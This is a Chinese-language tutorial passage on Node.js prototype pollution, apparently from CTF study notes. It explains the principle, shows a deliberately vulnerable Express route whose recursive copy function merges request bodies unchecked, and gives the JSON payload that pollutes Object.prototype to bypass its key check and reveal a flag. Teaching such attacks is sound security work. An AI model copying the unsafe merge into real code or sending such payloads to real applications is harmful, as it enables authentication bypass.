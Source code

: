 # 0x06 Node.js原型链污染漏洞

原理：

对于语句：object[a][b]=value，若a、b、value可控，将a设置为__proto__，可以给object对象的原型设置一个b属性，值为value，这样所有继承object对象原型的实例对象在本身不拥有b属性的情况下，都会拥有b属性。**如果能够控制并修改一个对象的原型，就可以影响到所有和这个对象同一个原型的对象。**

```javascript
object1 = {"a":1, "b":2};
object1.__proto__.foo = "Hello World";
console.log(object1.foo);
object2 = {"c":1, "d":2};
console.log(object2.foo);
```

![image-20221224225239156](E:\MyBook\Node_Park\.gitbook\assets\image-20221224225239156.png)

由于object2和object1都继承了Object.prototype，在获取object2.foo时，由于object2本身不存在foo属性，就会往父类Object.prototype中去寻找。这就造成了一个原型链污染。

首先看一段经典的原型链污染

```javascript
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.key==='666'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
})
    
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

POST： `{"__proto__":{"key":"666"}}`